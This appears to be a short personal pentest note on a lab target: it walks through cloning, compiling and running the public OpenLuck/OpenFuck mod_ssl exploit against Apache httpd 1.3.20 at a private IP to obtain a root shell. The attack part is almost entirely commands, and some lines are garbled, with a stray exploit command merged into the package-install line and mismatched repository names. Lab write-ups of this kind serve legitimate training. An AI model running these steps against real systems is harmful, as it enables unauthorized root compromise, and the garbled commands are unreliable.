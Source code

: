 # HTTP Exploit 
---
[OpenLuck](https://github.com/heltonWernik/OpenLuck)
- `git clone https://github.com/heltonWernik/OpenFuck.git`
- `apt-get install libssl-dev- ==`/OpenFuck 0x6b 192.168.157.128 -c 40-50``
- `gcc -o OpenFuck OpenFuck.c -lcrypto`
- `Usage: ./OpenFuck target box [port] [-c N]`
- `./OpenFuck 192.168.157.128 `
- We found apache version through nmap: `Apache httpd 1.3.20`
  ![[Pasted image 20250324162937.png]]
- ==`/OpenFuck 0x6b 192.168.157.128 443 -c 40-50`==
- This spawns a root shell:
  ![[Pasted image 20250324163409.png]]